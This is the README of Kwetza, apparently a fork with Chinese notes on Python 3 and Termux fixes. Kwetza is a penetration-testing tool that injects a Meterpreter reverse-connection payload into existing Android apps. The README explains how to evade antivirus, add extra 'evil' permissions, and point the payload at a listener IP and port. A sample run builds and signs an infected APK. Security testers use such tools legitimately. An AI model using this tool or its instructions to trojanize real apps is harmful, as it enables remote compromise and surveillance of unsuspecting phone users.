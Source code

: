 # Introduction
By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

# 修改说明  
以下问题均出现在手机Termux终端上<br/>
1.指定脚本使用python3执行<br/>
2.修复语法错误:调用“print”时缺少括号<br/>
3.修复需要一个类似于bytes的对象，而不是'str'<br/>
4.修复'utf-8'编解码器无法解码字节0xa4在位置4:无效的开始字节<br/>

# What does it do?

Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissions to gain additional functionality.

# Where can I get the blogpost?
The manual steps automated by Kwetza can be found here: https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# Getting the code

Firstly get the code:
```
git clone https://github.com/sensepost/kwetza.git
```

Kwetza is written in Python and requires BeautifulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

# Usage

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = name of the APK you wish to infect.
* https/tcp = select either a HTTPS or TCP connection
* LHOST = IP of your listener.
* LPORT = Port of your listener.
* yes = include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.
* customClass = Specify a custom activity here if you want Kwetza to inject into this activity.

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# Information

Kwetza has been developed to work with Python 2.

Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk.

If you would like to sign the infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the reference in the kwetza.py.

The same can be done for payload templates.

The password for the default keystore is, well, "password".

# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
